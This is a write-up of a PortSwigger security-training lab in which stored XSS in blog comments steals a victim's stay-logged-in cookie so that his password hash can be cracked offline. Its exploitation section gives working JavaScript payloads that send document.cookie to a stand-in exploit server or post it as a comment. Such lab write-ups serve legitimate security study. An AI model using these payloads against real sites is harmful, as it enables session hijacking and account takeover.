






# Offline password cracking
# Objective
This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.
- Your credentials: `wiener:peter`
- Victim's username: `carlos`


# Solution
## Analysis
### Cookie Construction
||
|:--:| 
| `stay-logged-in` cookie value |
||
| `stay-logged-in` cookie construction |
### XSS
Payload:
```js
<script>alert(document.cookie)</script>
```

||
|:--:| 
| *XSS proof of concept* |
||
| *POST request construction* |
## Exploitation
Stealing `stay-logged-in` cookie can be done in 2 ways:
- XSS forces victim to send his cookies to attacker's server.
- [XSS forces victim to make a comment on the blog with his cookies](/PortSwigger/Client_Side/XSS/Exploiting_cross-site_scripting_to_steal_cookies.md).


### Force victim to send requst with his cookies to exploit server
```js
<script>document.location='//EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```

### Force victim to post comment with his cookies
```js
<script>
window.addEventListener('DOMContentLoaded', function(){

var data = new FormData();
//Set appropiate postId
data.append('postId', 8);
data.append('comment', document.cookie);
data.append('name', 'Victim');
data.append('email', 'victim@victim.com');
data.append('website', 'https://example.com');

fetch('/post/comment', {
method: 'POST',
mode: 'no-cors',
body: data

});
});
</script>
```

||
|:--:| 
| *Victim's cookies* |
||
| *Victim's cookies* |
||
| *Password brute force* |